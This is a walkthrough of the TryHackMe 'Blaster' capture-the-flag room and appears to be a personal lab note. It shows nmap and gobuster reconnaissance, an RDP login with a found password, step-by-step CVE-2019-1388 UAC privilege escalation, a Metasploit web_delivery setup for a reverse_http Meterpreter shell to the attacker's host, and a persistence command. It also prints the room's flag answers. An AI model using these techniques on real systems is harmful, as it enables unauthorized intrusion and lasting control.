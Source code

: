 # Blaster

**author**:: Nathan Acks  
**date**:: 2021-12-06

* [TryHackMe: Blaster](https://tryhackme.com/room/blaster)

## Mission Start!

The CTF background notes that we'll be attacking a Windows box. So no ping responses again.

## Activate Forward Scanners and Launch Proton Torpedoes

The machine we'll be attacking is at 10.10.223.185. As usual, we'll start out with an nmap scan:

```bash
sudo nmap -v -oA blaster -Pn -A -T4 -sS -script vuln \
          -p- 10.10.223.185
```

Which gives us:

```
# Nmap 7.92 scan initiated Wed Dec  8 19:55:54 2021 as: nmap -v -oA blaster -Pn -A -T4 -sS -script vuln -p- 10.10.223.185
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|_  Hosts are all up (not vulnerable).
Nmap scan report for 10.10.223.185
Host is up (0.23s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2016 (90%), FreeBSD 6.X (85%)
OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2012 R2 (90%), Microsoft Windows Server 2016 (89%), FreeBSD 6.2-RELEASE (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.013 days (since Wed Dec  8 19:54:04 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   34.47 ms  10.13.0.1
2   ... 3
4   351.16 ms 10.10.223.185

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  8 20:12:16 2021 -- 1 IP address (1 host up) scanned in 982.31 seconds
```

FLAG 1: How many ports are open on the target? - 2

Looks like IIS running on port 80. Let's go take a peek.

…And, it's just the default IIS "hello world" page. Looks a damn sight prettier than Apache's.

FLAG 2: What is the title of the webserver's index page? - IIS Windows Server

Since there's nothing obvious here (and because the CTF is prompting us to do so), let's sic gobuster on this to see if there's anything interesting that's not linked to the (default) index page.

```bash
gobuster \
	-t 10 dir \
	-w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt \
	-u http://10.10.223.185/
```

FLAG 3: What is the hidden directory on the webserver? - /retro

Browsing to this directory reveals an entire "Retro Fanatics" website. All posts are by "Wade".

FLAG 4: What username is associated with this hidden directory? - Wade

Pocking around a bit more reveals a somewhat cryptic comment on a post:

> Leaving myself a note here just in case I forget how to spell it: parzival

Who wants to bet that this is Wade's password?

FLAG 5: What potential password is associated with this user? - parzival

Let's load up XFreeRDP and see if we can log in, shall we?

```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore \
         /v:10.10.223.185 /u:Wade /p:parzival
```

Boom!

FLAG 6: What are the contents of `user.txt`? - `THM{HACK_PLAYER_ONE}`

* [Using "nmap"](nmap.md)
* [Using "gobuster"](gobuster.md)
* [Using XFreeRDP](xfreerdp.md)

## Breaching the Control Room

There's no obvious files when pocking around except an hhupd.exe file on the desktop, and IE's history is empty.

Since I know we're looking for a CVE name, at this point I just used the Windows File Explorer to search Wade's home directory for "CVE". And lo-and-behold, there's a cached HTML file in C:/Users/Wade/AppData/Local/Microsoft/Windows/INetCache/Low/IE/7Z6YUWVY called cvename[1].htm which contains a website referencing CVE-2019-1388 (it looks like a slightly older version of the MITRE CVE page on CVE-2019-1388).

FLAG 7: What CVE was the initially compromised user researching? - CVE-2019-1388

(I feel like the approach I just used - making an educated guess about what the CTF was looking for and then just searching for it - is kind of a cop-out. *But*, the hint for this question states that I should check IE's history, which I did… So perhaps the room's broken?)

Anyways, I'm guessing that the hhupd.exe file on the desktop is the one that will exploit this vulnerability, since it's badged as needing administrative privileges and CVE-2019-1388 is a vulnerability in the UAC screen.

FLAG 8: What is the name of the executable the user was experimenting with? - hhupd.exe

In fact, a search for "CVE-2019-1388 exploit" pulls up a page that references hhupd.exe and helpfully links to a YouTube video demoing how this exploit works. It looks like the steps here are:

* Try to run hhupd.exe.
* Show details on the UAC prompt.
* Click on the certificate information link.
* Click on the issuer link. This will open up an instance of IE running with elevated permissions in the background.
* Exit the UAC dialog.
* Bring up the save dialog in IE.
* Navigate to `C:/Windows/System32/*.*` and open cmd.exe.

FLAG 9: What is the output of `whoami` in the terminal spawned using the user's exploit? - `nt authority\system`

The final flag is in the Administrator's Desktop folder.

FLAG 10: What are the contents of `root.txt`? - `THM{COIN_OPERATED_EXPLOITATION}`

* [CVE-2019-1388 (MITRE)](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-1388)
* [CVE-2019-1388 (nagenrauft-consulting.com)](https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/)

### Related Video

[CVE-2019-1388: Windows Privilege Escalation Through UAC (YouTube)](https://www.youtube.com/watch?v=3BQKpPNlTSo)

## Adoption into the Collective

Target information isn't immediately obvious in Metasploit; after selecting `exploit/multi/script/web_delivery` we'll need to run `info` to see all of the options.

FLAG 11: What is the target number for PSH when using `exploit/multi/script/web_delivery` in Metasploit? - 2

Let's set things up and run the exploit:

```msfconsole
set target 2
set SRVHOST 10.13.26.40
set LHOST 10.13.26.40
set payload windows/meterpreter/reverse_http
run -j
```

(NOTE: I found that I needed to set the SRVHOST option to get Metasploit to deliver the exploit on the right interface.)

This particular exploit outputs and encoded PowerShell script and then starts a local listener to deliver the actual Meterpreter shell. All we need to do is cut-and-paste into our elevated shell.

(For whatever reason, I could *only* get this exploit working with the 32-bit version of Meterpreter *and* the `run -j` command. I'm not sure why…)

FLAG 12: What command can be used in Meterpreter to establish on-boot persistence on this machine? - `run persistence -X`

(NOTE: Meterpreter flags this as being deprecated now; the modern pattern seems to be to background Meterpreter and then switch to and exploit the `exploit/windows/local/persistence` module, probably with `set STARTUP SYSTEM`.)

* [Using Metasploit](metasploit.md)
* [Using PowerShell](powershell.md)

ELAPSED TIME: 2 h 15 min
